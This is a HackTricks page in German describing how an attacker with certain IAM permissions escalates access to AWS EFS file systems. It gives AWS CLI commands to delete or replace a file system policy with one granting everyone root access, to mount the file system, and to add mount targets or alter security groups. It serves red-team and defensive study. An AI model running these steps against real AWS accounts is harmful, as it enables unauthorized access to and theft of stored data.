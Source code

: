 # AWS - EFS Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## EFS

Weitere **Informationen zu EFS** unter:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Denken Sie daran, dass Sie zum Einhängen eines EFS in einem Subnetz sein müssen, in dem das EFS freigegeben ist und Zugriff darauf haben (Sicherheitsgruppen). Wenn dies der Fall ist, können Sie es standardmäßig immer einhängen. Wenn es jedoch durch IAM-Richtlinien geschützt ist, müssen Sie die hier erwähnten zusätzlichen Berechtigungen haben, um darauf zuzugreifen.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Mit einer dieser Berechtigungen kann ein Angreifer die **Dateisystemrichtlinie ändern**, um Ihnen den Zugriff darauf zu **gewähren**, oder sie einfach **löschen**, damit der **Standardzugriff** gewährt wird.

Um die Richtlinie zu löschen:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Um es zu ändern:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Mit dieser Berechtigung kann ein Angreifer das EFS **einbinden**. Wenn die Schreibberechtigung nicht standardmäßig für alle erteilt wird, die das EFS einbinden können, hat er nur **Lesezugriff**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die zusätzlichen Berechtigungen `elasticfilesystem:ClientRootAccess` und `elasticfilesystem:ClientWrite` können verwendet werden, um **innerhalb des Dateisystems zu schreiben**, nachdem es eingehängt wurde, und um auf dieses Dateisystem **als Root zuzugreifen**.

**Mögliche Auswirkungen:** Indirekter Privilege Escalation durch Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:CreateMountTarget`

Wenn ein Angreifer sich in einem **Teilnetzwerk** befindet, in dem **kein Mount-Ziel** des EFS existiert, könnte er einfach **eines in seinem Subnetz erstellen** mit dieser Berechtigung:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilege Escalation durch Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In einem Szenario, in dem ein Angreifer feststellt, dass das EFS ein Mount-Ziel in seinem Subnetz hat, aber **keine Sicherheitsgruppe den Datenverkehr zulässt**, könnte er einfach **diese ändern, indem er die ausgewählten Sicherheitsgruppen modifiziert**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilege Escalation durch Auffinden sensibler Informationen im Dateisystem.



<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
